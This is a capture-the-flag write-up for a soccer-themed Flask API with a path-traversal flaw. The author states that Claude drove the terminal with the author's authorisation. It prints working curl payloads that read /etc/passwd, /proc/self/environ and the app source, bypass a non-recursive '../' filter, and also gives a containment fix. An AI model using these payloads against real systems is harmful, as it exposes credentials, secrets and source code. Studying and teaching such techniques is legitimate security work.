

# TOUCHLINE DISPATCH, Path Traversal → `/proc/self/environ` (+ full source leak), My Writeup

| | |
|---|---|
| **Platform** | pwnzone (hosted CTF event) |
| **Target** | TOUCHLINE DISPATCH ("Collection desk" API, soccer theme) |
| **Service** | Flask on **Werkzeug/3.1.9**, Python 3.11.16, HTTP, TCP/8300 (EC2) |
| **IP:Port** | `54.72.82.22:8300` |
| **Flag format** | `safctf{...}` |
| **Date** | 2026-10-03 |
| **Outcome** | `GET /api/view?name=` reads files; the `../` filter is a single, non-recursive `.replace('../','')`, so `....//` collapses back to `../`, and absolute paths work outright. Read `/proc/self/environ` → the `FLAG` env var. Bonus: dumped the whole challenge `service.py`. |
| **Honesty note** | Part of the OSINT-desk block sweep; my instruction was *"yes, go after 8300/8310/8340."* Claude drove the terminal. |

---

## 1. The Short Version

The desk advertises its own API: `GET /api/library` lists documents, `GET /api/view?name=...` opens one. A file-opener taking a `name` is a path-traversal magnet. `name=welcome.txt` is the intended use; the question is whether I can escape `documents/`.

```bash
curl -s "http://54.72.82.22:8300/api/view?name=/etc/passwd"
# {"text":"root:x:0:0:root:/root:/bin/bash\n..."}
```

Absolute paths work straight away, and the relative filter is trivially bypassed (`....//....//etc/passwd` also reads passwd). Flags in this event often sit in the `FLAG` environment variable, so:

```bash
curl -s "http://54.72.82.22:8300/api/view?name=/proc/self/environ" | tr '\0' '\n' | grep FLAG
# FLAG=safctf{276928973c4dea42f63d808ba7be66b7}
```

**What I walked away with**

| Flag | Value | How |
|---|---|---|
| Flag | `safctf{276928973c4dea42f63d808ba7be66b7}` | `/api/view?name=/proc/self/environ` → `FLAG` env var |

And a bigger prize than the flag: `name=/proc/self/cwd/service.py` dumped the **entire challenge runtime**, the shared `dispatch()` that drives every desk challenge in the block (Velvet Rehearsal, Backstage Ledger, and more). That source is what made 8310 and 8340 one-shot solves.

---

## 1.1 Attack Chain



---

## 2. Weaknesses I Used

| # | What | Class | Where | Severity |
|---|---|---|---|---|
| 1 | File read with user-controlled path; absolute paths accepted | **Path Traversal / LFI** (CWE-22 / CWE-23) | `GET /api/view?name=` | High |
| 2 | Traversal filter is a single non-recursive `replace('../','')` | Incomplete sanitisation (CWE-184) | same |, |
| 3 | Secret available via `/proc/self/environ`; source via `/proc/self/cwd` | Info exposure (CWE-200) | process filesystem | High |

---

## 3. Recon & The Filter

```bash
T=54.72.82.22:8300
curl -s "http://$T/api/library"
# {"items":["schedule.txt","welcome.txt"]}
```

Probing the opener showed three things at once:

```bash
v(){ curl -s --get "http://$T/api/view" --data-urlencode "name=$1"; }
v "../../etc/passwd"      # {"message":"Request unavailable."}   ← ../ stripped
v "....//....//etc/passwd" # reads /etc/passwd                    ← bypass
v "/etc/passwd"           # reads /etc/passwd                     ← absolute works
```

Once I had the source (next section) the filter was explicit:

```python
name = unquote(request.args.get('name','welcome.txt').replace('../',''))
p = ROOT/'documents'/name
return {'text': p.read_text()[:10000]}
```

`.replace('../','')` runs **once**, so `....//` → (strip the inner `../`) → `../`. And `ROOT/'documents'/name` with an **absolute** `name` throws the base away entirely (that's how `pathlib` joins an absolute path), which is why `/etc/passwd` worked with no traversal at all.

---

## 4. The Exploit

```bash
# the flag — in the process environment
curl -s "http://$T/api/view?name=/proc/self/environ" | tr '\0' '\n' | grep FLAG
# FLAG=safctf{276928973c4dea42f63d808ba7be66b7}

# the whole challenge source — /proc/self/cwd points at the app's working dir
curl -s --get "http://$T/api/view" --data-urlencode "name=/proc/self/cwd/service.py"
```

`/proc/self/environ` is the reliable spot for CTF flags set via `FLAG=...` (this whole event uses `FLAG=os.getenv('FLAG',...)`). `/proc/self/cwd/<file>` is the trick for reading an app's own source when you don't know its absolute path, `cwd` is a symlink to the process's working directory. (There was also an organiser-planted `private/reserve.txt` holding the flag for the `web-path` kind, reachable the same way.)

---

## 5. Why It Worked & How I'd Fix It

- **Root cause:** user input used as a filesystem path with a blocklist (`replace('../','')`) instead of real containment. A single non-recursive replace, plus `pathlib`'s absolute-path join behaviour, left two independent bypasses.
- **The fix:** resolve and confine. Reject absolute paths and `..`; after joining, verify the real path stays inside the base:
  ```python
  base = (ROOT/'documents').resolve()
  target = (base/name).resolve()
  if not target.is_relative_to(base): abort(400)
  ```
  Allowlist the known filenames (`library` already knows them), don't strip-and-hope. And don't put secrets in env/CWD that a file read can reach, though the real bug is the read.

---

## 6. Timeline

- `/api/library` → `/api/view?name=` opener → traversal smells.
- `/etc/passwd` (absolute) and `....//` both read → traversal confirmed.
- `/proc/self/environ` → `FLAG` → flag.
- `/proc/self/cwd/service.py` → full source → solved 8310 and 8340 off it.

---

## 7. References

- PortSwigger, **Directory/Path Traversal**; CWE-22, CWE-23, CWE-184, CWE-200
- The dojo's **sidequest-page-lfi-guide**, the full LFI masterclass (`/proc/self/{environ,cmdline,cwd}`, filter bypasses, remediation)

**Lesson I'm keeping:** `/proc/self/environ` for the secret, `/proc/self/cwd/<app>.py` for the source. A file-read bug is rarely just one file, it's the whole box's secrets and often the source that unlocks everything else.
